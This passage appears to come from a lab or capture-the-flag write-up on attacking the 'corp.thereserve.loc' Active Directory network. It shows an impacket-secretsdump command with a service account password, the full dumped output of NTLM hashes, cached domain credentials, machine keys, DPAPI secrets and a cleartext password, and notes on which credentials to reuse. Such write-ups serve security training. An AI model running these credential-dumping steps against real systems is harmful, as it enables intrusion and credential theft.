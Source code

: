 Service accounts have more privileges than normal domain users. With the `svcScanning` account, we can carry out further attacks such as dumping secrets from the AD machines.

## Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcScanning:'Password1!'@10.200.113.31`


> [!NOTE] Server1 hashes
> Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

### Service RemoteRegistry is in stopped state

Starting service RemoteRegistry

### Target system bootKey

0x90cf5c2fdcffe9d25ff0ed9b3d14a846

### Dumping local SAM hashes 
(uid:
rid:lmhash:nthash)

<font color="#00b050">Administrator:</font>500:aad3b435b51404eeaad3b435b51404ee:e2c7044e93cf7e4d8697582207d6785c:::

<font color="#00b050">Guest:</font>501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

<font color="#00b050">DefaultAccount:</font>503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

<font color="#00b050">WDAGUtilityAccount:</font>504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::

<font color="#00b050">THMSetup:</font>1008:aad3b435b51404eeaad3b435b51404ee:d37f688ca5172b5976b714a8b54b40f4:::

<font color="#00b050">HelpDesk:</font>1009:aad3b435b51404eeaad3b435b51404ee:f6ca2f672e731b37150f0c5fa8cfafff:::

<font color="#00b050">sshd:</font>1010:aad3b435b51404eeaad3b435b51404ee:48c62694fd5bbca286168e2199f9af49:::

### Dumping cached domain logon information 
(domain/username:hash)

<font color="#00b050">CORP.THERESERVE.LOC/Administrator</font>
$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca

<font color="#00b050">CORP.THERESERVE.LOC/svcScanning</font>
$DCC2$10240#svcScanning#d53a09b9e4646451ab823c37056a0d6b

### Dumping LSA Secrets

#### $MACHINE.ACC 

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">aes256-cts-hmac-sha1-96:</font>491598bf647972748c617aabd5efabb08101de295064485f53617f726c5269bb

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">aes128-cts-hmac-sha1-96:</font>d57ac7c73d110a704d927db338eaebd1

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">des-cbc-md5:</font>
76a19dbfe007292c

<font color="#00b050">CORP\SERVER1$:plain_password_hex:</font>9ef03e6264985bee7d06dc65c33ade8cc65b4dddd1153a62799828a90f7380ddb9ece90d8d33ee1a9a8ba2edbc1ece7b708dd8590a3a2b6c81c0d0f5c838cbfec92cfac5b74c56508bfdfc7b4a5679d8faf602912edae9685ee71caf29f60ad75ad7b5e7fc53beb4d55cd42284a6b4f5c834d71ce7d94aaea464f724fe6cfc0fdc4925289dcc44baf76c5f2d50a45f659b403b015f7c09e62b94425b65b9754005fd2c142130bc0ba3c837d4b660f6360312cdd6adc193eb2abe431f0fbd802164c56402edbd7718f57923ca72bf2b8114fb8a1c29ff1478876ed95fdc9032488f255bea3fb555952d49be510c36d9ba

<font color="#00b050">CORP\SERVER1$:</font>aad3b435b51404eeaad3b435b51404ee:955ca6f4b9f3b6ab69bd0b254774311f:::

### DPAPI_SYSTEM 

<font color="#00b050">dpapi_machinekey:</font>
0xb4cfb5032a98c1b279c92264915da1fd3d8b1a0d

<font color="#00b050">dpapi_userkey:</font>
0x3cddfc2ba786e51edf1c732a21ffa1f3d19aa382

### NL$KM 

 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...

<font color="#00b050">NL$KM:</font>8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2

### SC_SYNC 
<font color="#00b050">svcBackups@corp.thereserve.loc:</font>
q9nzssaFtGHdqUV3Qv6G

Cleaning up... 
Stopping service RemoteRegistry


> There are a couple of things from this output that are of most interest.

- The Administrator’s NTLM hash.
	- <font color="#00b050">CORP.THERESERVE.LOC/Administrator</font>
	- $DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca
- The ClearText password for `svcBackups` account.
	- <font color="#00b050">svcBackups@corp.thereserve.loc:</font>
	- q9nzssaFtGHdqUV3Qv6G